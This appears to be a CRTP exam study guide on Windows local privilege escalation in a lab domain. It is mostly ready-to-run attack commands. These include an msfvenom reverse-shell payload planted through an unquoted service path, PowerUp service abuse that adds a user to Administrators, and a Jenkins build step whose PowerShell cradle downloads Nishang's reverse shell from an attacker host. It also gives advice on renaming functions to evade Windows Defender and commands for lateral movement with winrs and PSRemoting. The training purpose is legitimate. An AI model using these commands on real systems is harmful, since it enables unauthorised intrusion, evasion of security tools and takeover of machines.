

# Local Privilege Escalation


The CRTP exam consists of 5 target servers in addition to a foothold student machine.\
The goal is to OS level command execution on all 5 targets not matter what the privileges of the user.


## Vectors

#### There are various ways of locally escalating privileges on Windows box:

*  **Missing patches** – Automated deployment and AutoLogon passwords in clear text
* **AlwaysInstallElevated** (Any user can run MSI as SYSTEM)
* **Misconfigured Services** – DLL Hijacking and more
* **NTLM Relaying** a.k.a. Won't Fix

This guide offer a sufficiently comprehensive overview of the course material for local privilege escalation



## Tools

### PowerUp



### WinPEAS



### Privesc



### Automated checks

```powershell
# PowerUp
Import-Module PowerUp.ps1
Invoke-AllChecks

# winPEAS
winPEASx64.exe 

# Privesc
Invoke-PrivEsc
```
## Manual Check Unquoted Service Path:

#### How to Find Unquoted Service Paths using CMD:

```batch
C:\> wmic service get name,pathname,startmode | findstr /v /i system32  | findstr /v \"
```
#### Find service path location
```batch
C:\> sc qc unquotedsvc
```
#### Using accesschk.exe, note that the BUILTIN\Users group is allowed to write to the C:\Program Files\Unquoted Path Service\ directory:
```batch
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```
### Generate a Reverse shell using msfvenom
```batch
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attackerIP> LPORT=<port>  -f exe -o reverse.exe
```
### Copy the reverse.exe executable you created to this directory and rename it Common.exe:
```batch
copy C:\Users\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```
### Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:
```batch
net start unquotedsvc
```

## Services



Find vulnerable service configuration

```powershell
# Get services with unquoted paths and spaces
Get-UnquotedService -Verbose

# Get services where current user can write to binary path
Get-ModifiableServiceFile -Verbose

# Get the services whose configuration current user can modify
Get-ModifiableService -Verbose
```

Add domain user to the local Administrators group

```powershell
# Get help commands
help Invoke-ServiceAbuse -Examples
# Practical use
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose
# Verify if the above command worked or not with
net localgroup administrators
# Logoff and login again to affect changes
```



Get all the service path names from where the service is executing.

```powershell
Get-WmiObject -Class win32_service | select pathname
```

Get ACLs of running service

```powershell
sc.exe sdshow <servicename>
```




### Local Privilege Escalation using Jenkins - PowerUp

```batch
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```
```powershell
. C:\AD\Tools\PowerUp.ps1
Invoke-AllChecks
```
Abuse Jenkins Instance
Next, let's try our hands on the Jenkins instance. To be able to execute commands on Jenkins server without admin access we must have privileges to Configure builds. We have a misconfigured Jenkins instance on dcorp-ci (http://172.16.3.11:8080). If we go to the "People" page of Jenkins we can see the users present on the Jenkins instance. Remember to use Edge to open the Jenkins web console!

<figure><figcaption></figcaption></figure>

Since Jenkins does not have a password policy many users use username as passwords even on the publicly available instances. By manually trying the usernames as passwords we can identify that the user builduser has password builduser. The user builduser can Configure builds and Add Build Steps which will help us in executing commands.

Use the encodedcomand parameter of PowerShell to use an encoded reverse shell or use download execute cradle in Jenkins build step. You can use any reverse shell, below we are using a slightly modified version of Invoke-PowerShellTcp from Nishang. We renamed the function Invoke-PowerShellTcp to Power in the script to bypass Windows Defender.

If using Invoke-PowerShellTcp, make sure to include the function call in the script Power -Reverse -IPAddress 172.16.100.X -Port 443 or append it at the end of the command in Jenkins. Please note that you may always like to rename the function name to something else to avoid detection.

**NOTE:** Upload Invoke-PowerShellTCP.ps1 script on HFS Server.

```batch
powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.X -Port 443
```

<figure><figcaption></figcaption></figure>

#### Save the configuration.

### Double check the following:
1. Remember to host the reverse shell on a local web server on your student VM. You can find hfs.exe in the C:\AD\Tools directory of your student VM. Note that HFS goes in the system tray when minimized. You may like to click the up arrow on the right side of the taskbar to open the system tray and double-click on the HFS icon to open it again.
2. Also, make sure to add an exception or turn off the firewall on the student VM.
3. Check if there is any typo or extra space in the Windows Batch command that you used above in the Jenkins project.
4. After you build the project below, check the 'Console Output' of the Jenkins Project to know more about the error.
   
On the student VM, run a netcat or powercat listener which listens on the port which we used above (443):

```batch
C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 443
```

We can now run commands on the reverse shell:

$env:username

ipconfig

$env:computername

### Local Privilege Escalation - WinPEAS



You can use WinPEAS using the following command. Note that we use an obfuscated version of WinPEAS:
```batch
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\winPEASx64.exe -args notcolor log
```


## Local Privilege Escalation - PrivEscCheck



Similarly, we can use PrivEscCheck (https://github.com/itm4n/PrivescCheck) for a nice summary of possible privilege escalation opportunities:

```powershell
. C:\AD\Tools\PrivEscCheck.ps1
Invoke-PrivescCheck
```
**📝 Tip:** PrivEscCheck gives cleaner output than WinPEAS.


### Hunt for Local Admin access
Now for the next task, to identify a machine in the domain where studentx has local administrative access, use Find-PSRemotingLocalAdminAccess.ps1:

```batch
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```

```powershell
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
```
So, studentx has administrative access on dcorp-adminsrv and on the student machine. We can connect to dcorp-adminsrv using winrs as the student user:

```batch
winrs -r:dcorp-adminsrv cmd

set username

set computername
```

### We can also use PowerShell Remoting:

```powershell
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
$env:username
```



